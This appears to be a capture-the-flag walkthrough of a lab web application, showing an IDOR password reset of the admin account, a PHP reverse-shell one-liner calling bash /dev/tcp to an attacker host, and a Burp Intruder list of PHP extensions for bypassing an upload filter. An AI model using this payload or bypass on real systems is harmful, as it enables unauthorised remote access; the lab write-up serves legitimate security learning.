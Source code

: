 
Change id to 1 and forward that request on.
Lets see what happens next. No errors returned. Lets see if we can login. Unfortunately we dont know the username but lets guess at some common admin names. I think when going through this initially I guess admin first time and it was correct so `¯\_(ツ)_/¯`
Lets login with the new password we just set.
```
User: admin
Password: thoseguys
```
And we are in and have a new option to look at. Upload.

Lets pause here for a sec and go back to the gobuster results.
We notice some interesting folders available. Config and upload.
```
http://192.168.1.19/config/
```
Browsing the config directory (directory listing is enabled yay), we just see a database.php file which gives us nothing right now.

Browsing upload we notice a jpg but not much else.
```
http://192.168.1.19/upload/
```
However we did see an upload function in the website just before. Lets go upload a php shell and see what happens.
Lets try upload a reverseshell from burp.

```
touch rev.php
vim rev.php
```
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker>/443 0>&1'");?>
```

Unfortunately, this fails with the following error.
```
Sorry , Allow Ex : jpg,png,gif
```
Lets check if this is just whitelisting jpg,png,gif or blacklisting php/a regex.
Lets send a file again and intercept the upload request with our proxy in Burp.
Send it over to intruder (CTRL + I) to try a list of extensions in order to determine if the app uses a whitelist or a blacklist:

![BurpIntruderPayload.png]({{site.baseurl}}/Images/vb-darkhole/BurpIntruderPayload.png)

Set the mode to Sniper and clear all the positions. Then highlight the php file extension and click add.

Under payloads we add a list of possible php file extensions from [HackTricks - file upload](https://book.hacktricks.xyz/pentesting-web/file-upload )

```
.php
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.phps
.pht
.phtm
.phtml
.pgif
.shtml
.htaccess
.phar
```